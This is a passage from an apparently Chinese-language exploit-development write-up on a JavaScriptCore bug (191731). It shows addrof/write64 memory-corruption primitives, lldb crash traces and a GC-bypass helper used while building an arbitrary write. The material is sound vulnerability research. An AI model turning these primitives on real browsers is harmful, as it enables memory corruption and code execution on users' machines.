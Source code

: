 ```
        this.write64(obj_addr+8, value);

    `}`,
`}`;

stage2.test();
```

```
&gt;&gt;&gt; describe(testObj)
Object: 0x1082b0100 with butterfly 0x1122334455667800 (Structure 0x10820d3b0:[Object, `{``}`, NonArrayWithDouble, Proto:0x1082b4000, Leaf]), StructureID: 1333
&gt;&gt;&gt;
```

发现写进去的数据不完整，这是因为JavaScript不能表示那么大的整型，所以我选择一次写四个字节。但是测试的时候还是出了错：

```
test : function()`{`

        testObj = `{``}`;
        testObj[0] = 1.1;
        obj_addr = this.addrof(testObj);
        value = 0x11223344;
        this.write64(obj_addr+8, value);
    `}`,
```

```
(lldb) run -i ../bug_191731/test/poc.js
Process 42272 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x11223ed8)
    frame #0: 0x000000010000c145 jsc`JSC::MarkedBlock::vm(this=0x0000000011220000) const at MarkedBlock.h:472:21
   469
   470     inline VM* MarkedBlock::vm() const
   471     `{`
-&gt; 472         return footer().m_vm;
   473     `}`
   474
   475     inline WeakSet&amp; MarkedBlock::Handle::weakSet()
Target 0: (jsc) stopped.
(lldb)
```

我猜测是因为gc的检查导致的问题，所以我写了个简单的`passGC()`：

```
passGC : function ()`{`
        var passObj = `{``}`;
        passObj[0] = 1.1;
        this.write64(this.addrof(passObj+8), 0x7);
`}`,
```
